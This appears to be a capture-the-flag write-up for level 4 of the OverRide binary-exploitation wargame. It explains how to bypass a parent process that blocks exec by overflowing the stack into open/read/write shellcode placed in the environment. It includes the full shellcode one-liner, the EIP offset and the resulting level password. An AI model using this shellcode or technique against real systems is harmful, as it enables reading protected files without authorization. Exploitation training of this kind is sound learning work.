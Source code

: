 # Level 4

Here the program is using multiple process with the main process watching the child in which we will do our exploit to see if we are trying to use the exec syscall. So we have to cook a new shellcode that does not use the exec syscall. To do so we do an open, read, write on the .pass file which is faster but way bigger in characters.

Now that we have our shellcode, we have to place it somewhere and the only place where we have nearly unlimited room to place our gigabig shellcode is the env. So we will place our variable in the env and use env -i to make sure the env is empty and the addresses are always the same.

Now we get the EIP offset with the cyclic string as usual and find the offset is 156 and we just place our shellcode address into EIP and run it

```bash
level04@OverRide:~$ python -c 'print "\x90" * 156 + "\x73\xdf\xff\xff"' | env -i SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x35\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x80\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xcd\x80\x31\xc0\xb0\x06\xcd\x80"') ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```